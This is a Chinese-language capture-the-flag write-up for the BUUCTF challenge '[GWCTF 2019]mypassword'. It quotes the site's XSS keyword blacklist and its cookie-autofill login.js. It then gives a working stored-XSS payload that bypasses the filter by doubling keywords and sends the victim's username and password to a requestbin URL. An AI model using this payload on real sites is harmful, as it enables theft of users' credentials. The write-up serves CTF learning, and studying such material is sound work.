 <!--yml
category: 未分类
date: 2022-04-26 14:37:38
-->

# BUUCTF__[GWCTF 2019]mypassword_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/116276324](https://blog.csdn.net/TM_1024/article/details/116276324)

## 题解

*   开局像极了注入，但却是个XSS。
*   第一步信息收集，没有找到直接的提示或者后端源码。但是注册登录上去在`feedback.php` 有一个输入反馈，并且在页面存在注释。

```
 if(is_array($feedback)){
				echo "<script>alert('反馈不合法');</script>";
				return false;
			}
			$blacklist = ['_','\'','&','\\','#','%','input','script','iframe','host','onload','onerror','srcdoc','location','svg','form','img','src','getElement','document','cookie'];
			foreach ($blacklist as $val) {
		        while(true){
		            if(stripos($feedback,$val) !== false){
		                $feedback = str_ireplace($val,"",$feedback);
		            }else{
		                break;
		            }
		        }
		    } 
```

*   简单的关键字置换为空，注意 `str_ireplace`函数，该函数单次匹配递归匹配，但它关键字是一个数组，遍历数组，每次一个关键字，那么就能通过简单的双写关键字绕过，但是不能为同一个关键字。比如简单的`<scriphostt>alert(1)</scriphostt>`，点击List列表中编号就能弹窗。由被过滤的关键字都是XSS常用的来反推可能是个XSS题目。
*   第二点，利用XSS来干啥？
*   容易忽略一个地方，在登录页面中的`/js/login.js`

```
if (document.cookie && document.cookie != '') {
	var cookies = document.cookie.split('; ');
	var cookie = {};
	for (var i = 0; i < cookies.length; i++) {
		var arr = cookies[i].split('=');
		var key = arr[0];
		cookie[key] = arr[1];
	}
	if(typeof(cookie['user']) != "undefined" && typeof(cookie['psw']) != "undefined"){
		document.getElementsByName("username")[0].value = cookie['user'];
		document.getElementsByName("password")[0].value = cookie['psw'];
	}
} 
```

*   代码会把cookie中的username和password填进当前表单
*   如果我们写一个页面，页面中有表单，再调用这个js文件，cookie中的数据被填入表单，再用js获取页面表单内容，发送请求带出。就能得到管理员cookie。
*   poc，提交反馈

```
<inpcookieut type="text" name="username"></inpcookieut>
<inpcookieut type="text" name="password"></inpcookieut>
<scricookiept scookierc="./js/login.js"></scricookiept>
<scricookiept>
	var uname = documcookieent.getElemcookieentsByName("username")[0].value;
	var passwd = documcookieent.getElemcookieentsByName("password")[0].value;
	var res = uname + " " + passwd;
	documcookieent.locacookietion="http://http.requestbin.buuoj.cn/*/?a="+res;
</scricookiept> 
```

*   先访问`http://http.requestbin.buuoj.cn/`点击 `Create a RequestBin`获取一个链接，将poc中的`http://http.requestbin.buuoj.cn/*/` 中的*改为自己的标识符就行。过一会刷新。
    ![在这里插入图片描述](img/1a84fd5faea6da496cd77ba227b92329.png)